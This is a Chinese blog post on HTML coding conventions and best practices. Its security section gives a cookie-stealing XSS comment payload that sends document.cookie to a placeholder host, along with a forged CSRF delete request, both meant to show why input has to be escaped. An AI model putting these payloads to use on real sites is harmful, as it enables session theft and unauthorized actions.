 title: HTML编码规范
date: 2015-11-28 17:59:13
tags: 规范
---
## [1.书写规范](#guide)

* 只使用小写，包括标签名、属性名、属性值(一些可以自定义的字符串属性值除外)

```html
<!-- 不推荐 -->
<A HREF="/">Home</A>

<!-- 推荐 -->
<img src="google.png" alt="Google">
```

* 为每个块级元素或表格元素标签新起一行，并且对每个子元素进行缩进

* 确保你的IDE使用的是UTF-8编码来保存文件的，在定义页面的编码时使用 `<meta charset="utf-8">`

* 文档类型: `<! DOCTYPE html>`

* 使用规范化的html

* 使用语义化的html标签，根据用途来选择标签

* 把多媒体元素可知化。像图片、视频、动画等多媒体元素，要有相关的文字来体现其内容，比如<img>可以使用`alt`属性来说明其图片内容

```html
<!-- 不推荐 -->
<img src="sheet.png">

<!-- 推荐 -->
<img src="sheet.png" alt="screenshot".>

```

* 确保页面的结构、样式、行为三者相分离。确保文档或模板中只包含`html`, 把用到的样式都写到样式表文件中，把脚本文件都写到`js`文件中。

```html
<!DOCTYPE html>
<html>
<head lang="en">
    <meta charset="UTF-8">
    <title></title>
    <link rel="stylesheet" href="http://fonts.googleapis.com/css?family=Open+Sans:300,400,700"/>
</head>
<body>
    <span href="#" class="button" id="toggle-login">Log in</span>
</div>
    <script src="http://code.jquery.com/jquery-2.1.3.js"></script>
</body>
</html>
```

## [2.最佳实践](#practice)

### 2.1 保持标签闭合

```html
<!-- bad -->
<li>Some text here
<li>Some new text

<!-- good -->
<ul>
    <li>Some text here</li>
</ul>
```
### 2.2 尽量不要使用内联样式

```html
<!-- bad -->
<p style="color:#ccc">An example to illustrate inline style in html</p>

<!-- good -->
<p class="html_bp">An example to illustrate inline style in html</p>
```

### 2.3 使用连续的标题

```html
<!-- bad -->
<h1>This is the topmost heading</h1>
<h3>This is a sub_heading underneath the topmost heading</h3>

<!-- good -->
<h1>This is the topmost heading</h1>
<h2>This is a sub_heading underneath the topmost heading</h2>
```

### 2.4 在合适的地方使用合适的标签
HTML标签是构造规范内容结构的关键。例如 `<em>` 标签用来强调重点内容。 `<p>`标签适用于突出文章段落。如果想要在段落间加空行,就不要使用`<br/>`

```html
<!-- bad -->
<p>段落1<br/>
段落2</p>

<!-- good -->
<p>段落1</p>
<p>段落2</p>
```

### 2.5 为图片标签添加alt属性

```html
<!-- bad -->
<img id="logo" src="images/bgr_logo.png"/>

<!-- good -->
<img id="logo" src="images/bgr_logo.png" alt="Tom - Web Development"/>
```

### 2.6 添加适当的title属性
```html
<!-- bad -->
<a href="javascript:;">go away</a>

<!-- good -->
<a href="javascript:;" title="go away">go away</a>
```

### 2.7 IE兼容模式
```html
<!--推荐-->
<meta http-equiv="X-UA-Compatible" content="IE=Edge">
```

### 2.8 对于Boolean类型的标签属性，可以不用赋值
```html
<!--推荐-->
<input type="checkbox" name="" id="" checked>
checked属性可以不用写checked="checked"
```

### 2.9 标签嵌套规范
1) 块元素可以包含内联元素或某些块元素, 但内联元素却不能包含块元素, 它只能包含其它的内联元素
```html
<!--good-->
<div>
    <span></span>
</div>

<!--bad-->
<span>
     <div></div>
 </span>
```

2) p元素不能包含块元素
```html
<!--good-->
<p>
    <span></span>
</p>
<div>
    <p></p>
</div>

<!--bad-->
<p>
    <div></div>
</p>
<p>
    <ul>
        <li></li>
    </ul>
</p>
```

## [3.安全](#safe)
### 3.1 XSS(Cross Site Scripting)
对于任何用户输入的内容，如果会显示在页面上，就需要做HTML的标签转义

比如聊天信息，或者用户评论，用户输入如下内容：
```js
我的评论<script>alert("弹窗")</script>
```
```js
//在正常的站点(a.com)输入如下评论, domain = a.com
我的评论<script>
var cookies = document.cookie, img = new Image();
img.src = 'http://xxx.com/?cookies='+encodeURIComponent(cookies);
document.body.appendChild(img);
</script>
```

### 3.2 CSRF(Cross-site request forgery)
CSRF与XSS有些类似，不过CSRF主要是利用权限管理的漏洞，如果登录会话在浏览器关闭前一直保持，其它用户可以通过构造URL的方式跨站伪造用户请求。

CSRF的防范点主要在后端，但CSRF的漏洞利用是在浏览器端。

```js
//在第三方的网站(b.com)插入对正常网站(a.com)的请求, domain = b.com
var img = new Image();
img.src = 'http://a.com/?action=delete&id=xxx';
document.body.appendChild(img);
```

## [4.参考文档](#reference)
- [dyygtfx/FeCodeGuide](https://github.com/dyygtfx/FeCodeGuide)
- [tsq/front-end-principles](https://github.com/tsq/front-end-principles/)